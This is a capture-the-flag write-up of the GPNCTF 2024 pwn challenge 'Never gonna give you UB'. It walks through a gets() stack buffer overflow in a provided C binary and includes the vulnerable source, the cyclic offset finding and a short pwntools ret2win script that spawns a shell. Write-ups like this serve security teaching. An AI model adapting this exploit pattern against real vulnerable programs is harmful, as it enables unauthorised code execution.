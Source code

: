 ```yaml
---
layout: load_md
title: The White Circle | Gpnctf 2024 | Never gonna give you UB Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Gpnctf 2024
parent: gpnctf_2024
category: pwn
challenge: Never gonna give you UB
tags: "pwn, ava, win function, pwntools"
---
```


<h1 class="heading card-title white-text">Gpnctf 2024</h1>

## Never gonna give you UB
> Solved by : iamavu

We are given a file called `song_rater` amongst other files (Dockerfile and such) with the following security mitigations.

![](https://i.imgur.com/JYzn83H.png)


as there is no PIE, this should be easily solvable as there won’t be random address loading for binary everytime we run the binary, yay!
When we run the binary we get the following

![](https://i.imgur.com/KvLHIve.png)


So it just prints whatever input we get. 

We are also given the C code for the binary, making our job much easier.

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

// win or flag function which we have to execute somehow for us getting the shell
void scratched_record() {
        printf("Oh no, your record seems scratched :(\n");
        printf("Here's a shell, maybe you can fix it:\n");
        execve("/bin/sh", NULL, NULL);
}

extern char *gets(char *s);

//main function which asks for input without checking input size (gets is security flaw here)
int main() {
        printf("Song rater v0.1\n");
        char buf[0xff];
        printf("Please enter your song:\n");
        gets(buf);
        printf("\"%s\" is an excellent choice!\n", buf);
        return 0;
}
```

I have added comments where necessary, now lets have a look at binary in GDB to find the address of `RIP` so we can put the address of `scratched_record` there and get our flag.


![](https://i.imgur.com/1vmdIB9.png)


We observe that the address of `scratched_record` is `0x0000000000401196`, so we need to somehow put that address in `RIP` instruction pointer.
Let’s buffer overflow!!
We will get big buffer of 300 bytes and see how the program behaves and see which byte ends up in `RBP` .

![](https://i.imgur.com/qpSNWTo.png)


We did `pwn cyclic 300` to get 300 bytes which have certain pattern, and now we will send this as input to program and make it crash.
Why 300? well `0xff` in decimal is `255` so 300 sound pretty good to me.

![](https://i.imgur.com/ZsNFR3a.png)


After crashing the program we see that the byte `haaaaaab` gets into RBP, let’s see how much bytes that is by doing `cyclic -l haaaaaab`

![](https://i.imgur.com/UT4iqsl.png)


We found the offset at 256, now we need to add 8 into that so we get the offset where `RIP` is!
and that is `264`. yay!
Let’s write a simple pwntools script to exploit this now

```python
from pwn import *
win = p64(0x0000000000401196)
overwrite = b"A"*264
payload = overwrite + win
p = process("./song_rater")
p.sendline(payload)
p.interactive()
```

We simply pack the address of `scatched_record` in `win` variable and overwrite `264` bytes and then send that payload to the program and then get an interactive shell!

Let’s run this

![](https://i.imgur.com/2icIWVR.png)


we got the shell!

